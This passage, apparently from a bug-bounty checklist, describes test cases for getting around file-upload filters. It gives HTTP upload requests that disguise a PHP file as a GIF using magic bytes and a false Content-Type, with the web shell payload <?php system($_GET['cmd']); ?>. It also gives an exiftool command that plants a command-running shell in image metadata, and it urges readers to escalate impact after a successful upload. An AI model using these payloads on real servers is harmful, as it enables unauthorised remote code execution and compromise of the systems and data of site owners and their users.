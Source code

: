 ## Test Case - 5: Content Bypass / Using Magic Bytes

```
1. Find the upload request and send it to the repeater
2. Try all Four above bypass first, if they doesn't works then see if file content is been
	 checked. Try all five of this case in combo for more success rate.

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php

[...]

3. Change the Content-Type: application/x-php to Content-Type: image/gif and Add the
	 text "GIF89a;" before you shell-code.

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/gif

GIF89a; <?php system($_GET['cmd']); ?>

4. Try more from here <https://en.wikipedia.org/wiki/List_of_file_signatures> and change
	 Content-Type: accordingly
5. If successful upload better Shell and POC, and see how can you increase critically.

```

## Test Case - 6: Magic Bytes and Metadata Shell

```
1. Find the upload request and send it to the repeater
2. Try all above bypass first, if they doesn't works then see if file content is been
	 checked. Try all six of this case in combo for more success rate.

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php

[...]

4. First Bypass Content-Type checks by setting the value of the
	 Content-Type header to: image/png , text/plain , application/octet-stream
5. Introduce the shell inside the metadata using tool exiftool.

exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg

6. Now try uploading this modified img.jpg
7. Exploit further to increase critically.

```